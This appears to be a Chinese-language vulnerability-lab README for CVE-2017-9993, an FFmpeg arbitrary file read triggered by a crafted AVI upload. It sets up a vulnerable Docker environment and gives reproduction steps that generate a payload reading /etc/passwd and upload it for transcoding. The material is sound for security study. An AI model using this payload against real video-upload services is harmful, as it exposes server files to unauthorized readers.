 # FFmpeg AVI 任意文件读取漏洞

FFmpeg 是一个开源的跨平台多媒体框架，提供了处理视频、音频和多媒体文件的功能。

FFmpeg 2.4.14, 2.8.12, 3.0.9, 3.1.9, 3.2.6, 3.3.2 版本之前，未正确限制 HTTP Live Streaming 文件名扩展和解复用器名称，允许攻击者通过精心构造的视频文件来读取服务器上的任意文件。

这个漏洞首次在PHDays 2017会议中被提出，它实际上是[CVE-2016-1897](../CVE-2016-1897/)的不完整修复导致的。FFmpeg官方修复了m3u播放列表中的文件读取和SSRF漏洞，但攻击者通过构造恶意的AVI文件，类似的漏洞仍然存在于其播放列表中，这导致了CVE-2017-9993。

参考链接：

- <https://docs.google.com/presentation/d/1yqWy_aE3dQNXAhW8kxMxRqtP7qMHaIfMzUDpEqFneos/>
- <https://github.com/neex/ffmpeg-avi-m3u-xbin>
- <https://www.anquanke.com/post/id/86337>

## 环境搭建

执行如下命令启动一个包含了FFmpeg 3.2.4的环境：

```
docker compose up -d
```

环境启动后将监听8080端口，访问`http://your-ip:8080/`即可查看应用，应用是一个简单的视频播放器，允许用户上传和播放视频。

## 漏洞复现

首先，下载漏洞利用工具并生成恶意payload：

```bash
# 克隆漏洞利用仓库
git clone https://github.com/neex/ffmpeg-avi-m3u-xbin
cd ffmpeg-avi-m3u-xbin

# 生成payload
./gen_xbin_avi.py file:///etc/passwd exp.avi
```

在`http://your-ip:8080/`上传生成的`exp.avi`文件。后端将使用FFmpeg对上传的视频进行转码，在转码过程中，由于FFmpeg的任意文件读取漏洞，文件内容将被嵌入到转码后的视频中：

![](1.png)

你也可以执行`docker compose exec web bash`进入环境内部，直接测试FFmpeg。
